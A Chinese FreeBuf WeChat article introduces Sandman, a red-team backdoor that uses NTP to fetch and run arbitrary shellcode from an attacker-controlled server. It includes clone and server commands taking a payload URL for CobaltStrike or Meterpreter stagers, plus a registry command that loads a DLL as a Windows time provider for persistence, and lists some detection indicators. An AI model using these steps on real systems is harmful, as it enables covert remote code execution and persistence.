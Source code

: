 #  Sandman：一款基于NTP协议的红队后门研究工具

原创 Alpha_h4ck  [ FreeBuf ](javascript:void\(0\);)

**FreeBuf** ![]()

微信号 freebuf

功能介绍 中国网络安全行业门户

____

___发表于_

收录于合集

![](https://gitee.com/fuli009/images/raw/master/public/20221112091255.png)

##  

## **  关于Sandman **

  
Sandman是一款基于NTP的强大后门工具，该工具可以帮助广大研究人员在一个安全增强型网络系统中执行红队任务。  
Sandman可以充当Stager使用，该工具利用了NTP（一个用于计算机时间/日期同步协议）从预定义的服务器获取并运行任意Shell代码。  
由于NTP这个协议是很多安全防御人员往往会忽略的一个协议，因此很多网络系统中并不会针对NTP进行检测。  

##  **  功能介绍 **

> 1、允许从研究人员控制的服务器获取并执行任意Payload；  
> 2、由于网络防火墙系统中通常会允许使用NTP协议，因此可以将其用于安全增强型网络系统中；  
> 3、支持通过IP欺骗技术来模拟合法的NTP服务器；

##  **  工具安装 **

  
首先，我们需要使用下列命令将该项目源码克隆至本地：

    
          * 
    
    
    
    git clone https://github.com/Idov31/Sandman.git

### (向右滑动、查看更多)

###  ****

###  **SandmanServer**

  
我们需要在服务器端安装并配置好Python
3.9环境，然后使用项目提供的requirements.txt文件和pip3命令配置Sandman服务器所需的依赖组件：

    
          *   * 
    
    
    
    cd Sandmanpip3 install requirements.txt

###  

###  **SandmanBackdoor**

  
将项目导入到Visual Studio中，然后使用USE_SHELLCODE完成代码编译即可。  

###  **SandmanBackdoorTimeProvider**

  
首先，安装好DllExport，然后将项目导入到Visual Studio中，并使用USE_SHELLCODE完成代码编译即可。  

##  **  工具使用 **

###  

###  **SandmanServer使用**

  
在Windows或类Unix设备上运行下列命令即可：

    
          * 
    
    
    
    python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"

(向右滑动、查看更多)

  
其中，Network Adapter是需要让服务器监听的网络适配器，例如Ethernet、eth0等；Payload
Url即为托管Shellcode的URL地址，例如CobaltStrike、Meterpreter或其他Stager；对于IP to
Spoof，如果你想要执行IP地址欺骗（模拟），可以使用该选项.  

###  **SandmanBackdoor使用**

  
首先，我们需要完成SandmanBackdoor的编译。其次，由于它是一个轻量级的独立C2可执行文件，因此我们可以通过ExecuteAssembly来直接运行它。  

###  **SandmanBackdoorTimeProvider使用**

  
如需使用SandmanBackdoorTimeProvider，可以按照下列步骤操作：首先，添加下列注册表项：

    
          * 
    
    
    
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\Path\To\TheDll.dll"

(向右滑动、查看更多)  
接下来，重启w32time服务：

    
          *   * 
    
    
    
    sc stop w32timesc start w32time

注意事项：确保使用的是x64选项编译工具源码。  

##  **  工具运行截图 **

  
![](https://gitee.com/fuli009/images/raw/master/public/20221112091306.png)

##  

##  **  入侵威胁指标IoC **

> 1、工具会将一个Shellcode注入到RuntimeBroker中；2、NTP通信会使用可疑的Header；3、可以使用YARA规则检测；

##  

##  **  许可证协议 **

  
本项目的开发与发布遵循BSD-2-Clause许可证协议。  

##  **  项目地址 **

  
 **Sandman** ：https://github.com/Idov31/Sandman

##  **  
**

##  **参考资料：**

>
> https://github.com/ORCx41/https://twitter.com/NotMedichttps://twitter.com/NotMedic/status/1561354598744473601https://github.com/3F/DllExport

![](https://gitee.com/fuli009/images/raw/master/public/20221112091307.png)  
  

精彩推荐

  
  
  
  
  
  
  
[![](https://gitee.com/fuli009/images/raw/master/public/20221112091308.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489554&idx=1&sn=7dc76862d96516013375f712c9bdfcf1&scene=21#wechat_redirect)[![](https://gitee.com/fuli009/images/raw/master/public/20221112091313.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489510&idx=1&sn=55f589464f2ffbf2817523f3282175ba&scene=21#wechat_redirect)[![](https://gitee.com/fuli009/images/raw/master/public/20221112091314.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489388&idx=1&sn=f0e8fed4afd1dc82ac6af789e5b13626&scene=21#wechat_redirect)![](https://gitee.com/fuli009/images/raw/master/public/20221112091315.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

